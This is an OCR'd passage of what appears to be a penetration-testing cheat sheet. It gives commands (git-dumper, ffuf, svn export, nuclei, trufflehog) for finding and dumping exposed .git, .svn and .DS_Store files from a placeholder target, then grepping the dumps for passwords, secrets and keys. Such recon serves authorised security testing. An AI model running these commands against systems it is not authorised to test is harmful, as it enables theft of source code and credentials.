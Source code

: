     :- Dump found repositories
    git-dumper https://target.com/.git/ git_dump --threads 10

    :- 2. SVN REPOSITORY DISCOVERY
    :- Check for exposed .svn
    ffuf -w /usr/share/seclists/Discovery/Web-Content/svn.txt \
    -u https://target.com/FUZZ \
    -t 100 \
    -mc 200,403 \
    -o svn_scan.json

    :- Extract SVN info (alternative)
    svn export http://target.com/.svn/ svn_dump --force

    :- 3. DS_STORE FILES
    :- Find exposed .DS_Store
    ffuf -w /usr/share/seclists/Discovery/Web-Content/dsstore.txt \
    -u https://target.com/FUZZ \
    -t 100 \
    -mc 200,403 \
    -o ds_store_scan.json

    :- Parse found .DS_Store
    ds_store_parser http://target.com/.DS_Store -o parsed_ds_store.txt

    :- 4. COMPREHENSIVE VCS SCAN
    nuclei -u https://target.com \
    -t exposures/version-control/ \
    -severity medium,high,critical \
    -o nuclei_vcs_scan.txt

    :- 5. AUTOMATED TOOLS
    :- GitHound (for GitHub-related leaks)
    python3 gitHound.py -k keywords.txt -t target.com -o githound_results.json

    :- TruffleHog (secret scanning)
    trufflehog git --extra-checks https://target.com/.git/

    :- ADVANCED TECHNIQUES

    :- 1. HISTORICAL VCS FILES (Wayback)
    waybackurls target.com | grep -E '\.(git|svn|hg|DS_Store)' | sort -u

    :- 2. GIT RECONSTRUCTION
    :- When full dump isn't possible
    git-extractor --partial --url https://target.com/.git/ --output partial_git

    :- 3. SVN ENUMERATION
    svn list http://target.com/.svn/ --depth infinity

    :- 4. METADATA ANALYSIS
    :- Extract interesting files from dumps
    find git_dump -type f -exec grep -l "password\|secret\|key" {} \;

    :- PRO TIPS:
    :- 1. Always check for:
    :-    - /.git/HEAD
    :-    - /.svn/entries
    :-    - /.DS_Store
    :-    - /CVS/Root
    :-    - /.hg/store
    :- 2. Look for backup files (*.git.tar.gz, *.svn.zip)
    :- 3. Check developer naming patterns (git_backup, old_svn)
    :- 4. Combine with other recon data
    :- 5. Be ethical - don't download proprietary code without permission
